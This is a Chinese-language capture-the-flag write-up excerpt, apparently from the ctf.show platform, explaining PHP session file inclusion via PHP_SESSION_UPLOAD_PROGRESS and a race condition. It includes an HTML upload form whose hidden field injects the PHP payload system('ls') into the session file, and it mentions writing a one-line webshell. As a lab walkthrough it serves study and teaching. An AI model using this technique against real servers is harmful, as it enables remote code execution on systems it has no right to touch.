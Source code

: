 ![image-20250228205540193](assets/image-20250228205540193.png)

在前面的基础上过滤了`.`，这意味着只能包含无后缀的文件，在php中，能控制无后缀的文件只有session

题目提示：利用 session 对话进行文件包含，通过条件竞争实现。

> **条件竞争原理：当我们成功上传了php文件，服务端会在短时间内将其删除，我们需要抢在它删除之前访问文件并生成一句话木马文件，所以访问包的线程需要大于上传包的线程。**

**说一下这道题的利用点：**

**我们在 Cookie 里设置了 PHPSESSID=test，PHP 将会在服务器上创建一个文件：/tmp/sess_test，但是对于默认配置 session.upload_progress.cleanup = on，文件上传后 session 文件内容会立即被清空，我们需要通过条件竞争，在服务器还未来得及删除我们上传的session 文件内容前，成功访问包含到该文件，实现恶意代码的命令执行。**

这里还要用到`PHP_SESSION_UPLOAD_PROGRESS`参数用于获取实时文件上传进度，在网上抄了一个文件上传的html脚本：

```
<!DOCTYPE html>
<html>
<body>
<form action="https://84202b35-60d0-4bd2-bee2-781631694f2c.challenge.ctf.show//" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system('ls'); ?>" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
<?php
session_start();
?>
```
